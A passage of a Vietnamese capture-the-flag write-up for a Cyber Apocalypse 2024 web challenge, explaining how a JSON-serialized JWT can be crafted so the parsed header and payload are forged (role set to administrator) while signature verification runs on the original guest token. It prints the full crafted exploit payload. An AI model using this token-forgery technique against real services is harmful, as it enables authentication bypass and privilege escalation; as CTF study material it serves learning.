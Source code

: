 ![image](assets/cyber-apocalypse-2024/cyber-apocalypse-2024-4.png)
Ta cần đưa vào jwt thỏa mãn:
- Là dạng JSON string
- Sau khi split kí tự '.' chia ra 3 phần: header, payload và \_ (KHÔNG QUAN TRỌNG 💣💥💥)

Vì hàm `verify_jwt` chỉ return về 2 phần đầu, và hàm `desrialize` dựa vào dict keys (protected, payload, signature,...) để dựng lại jwt token và verify
--> Có thể fake 2 phần đầu là 2 phần đã bị thay đổi, và jwt token được verify là jwt token cũ.
```json 
{
  "header.new_payload.hehe":"huhu",
  "protected": header,
  "payload": original_payload,
  "signature": signature
}
```
Từ payload này, Có thể thấy jwt đưa vào `app/v1/flag` thỏa mãn cả hai điều kiện trên.

Cụ thể với jwt là
```
eyJhbGciOiJQUzI1NiIsInR5cCI6IkpXVCJ9.eyJleHAiOjE3MTA5OTQ4MTAsImlhdCI6MTcxMDk5MTIxMCwianRpIjoiMkt1NkN5cUZrLTdjSXBsV1FDNzVzZyIsIm5iZiI6MTcxMDk5MTIxMCwicm9sZSI6Imd1ZXN0IiwidXNlciI6Imd1ZXN0X3VzZXIifQ.TDMdUJYNSqpVxZKFLAD9vZnYco4i-h9rC5RZIQd9eO4KhsXt_K6L1iVidAAmMUOh8ZT8TMgLVqHfWWG4ymqeC-FGEAR4yNzwHP5IyvrOMVxYWboiR0vbxf-dREMZ5ikKATdNhENEyA7MoQq_alyU5H6csxJKmV9kchJviyB58OQ06BL7XhVC4vkOkiHZP_4N5xs_CQm3Za7mVwGiNrv35R4qlX3FJB2UseDpu-kzga1AtgKhat_zSthDBIlXQUmyZFk6sd8FyzHNKTm_pR2JYaebyutmDvIdhOgiNK0hYTjuamBBEeWMMX49k4pbe33Vrrh-oyF58SkCB2fCUhnq-Q
```
Sẽ thành
```json
{
  "eyJhbGciOiJQUzI1NiIsInR5cCI6IkpXVCJ9.eyJhbGciOiJQUzI1NiIsInR5cCI6IkpXVCJ9.eyJhbGciOiJQUzI1NiIsInR5cCI6IkpXVCJ9.eyJleHAiOiAxNzEwOTk0ODEwLCAiaWF0IjogMTcxMDk5MTIxMCwgImp0aSI6ICIyS3U2Q3lxRmstN2NJcGxXUUM3NXNnIiwgIm5iZiI6IDE3MTA5OTEyMTAsICJyb2xlIjogImFkbWluaXN0cmF0b3IiLCAidXNlciI6ICJndWVzdF91c2VyIn0.hehe": "huhu",
  "protected":"eyJhbGciOiJQUzI1NiIsInR5cCI6IkpXVCJ9",
  "payload":"eyJleHAiOjE3MTA5OTQ4MTAsImlhdCI6MTcxMDk5MTIxMCwianRpIjoiMkt1NkN5cUZrLTdjSXBsV1FDNzVzZyIsIm5iZiI6MTcxMDk5MTIxMCwicm9sZSI6Imd1ZXN0IiwidXNlciI6Imd1ZXN0X3VzZXIifQ",
  "signature":"TDMdUJYNSqpVxZKFLAD9vZnYco4i-h9rC5RZIQd9eO4KhsXt_K6L1iVidAAmMUOh8ZT8TMgLVqHfWWG4ymqeC-FGEAR4yNzwHP5IyvrOMVxYWboiR0vbxf-dREMZ5ikKATdNhENEyA7MoQq_alyU5H6csxJKmV9kchJviyB58OQ06BL7XhVC4vkOkiHZP_4N5xs_CQm3Za7mVwGiNrv35R4qlX3FJB2UseDpu-kzga1AtgKhat_zSthDBIlXQUmyZFk6sd8FyzHNKTm_pR2JYaebyutmDvIdhOgiNK0hYTjuamBBEeWMMX49k4pbe33Vrrh-oyF58SkCB2fCUhnq-Q"
}
```
Sau khi split, header sẽ là `{"eyJhbGciOiJQUzI1NiIsInR5cCI6IkpXVCJ9` nhưng vẫn có thể decode và loads thành công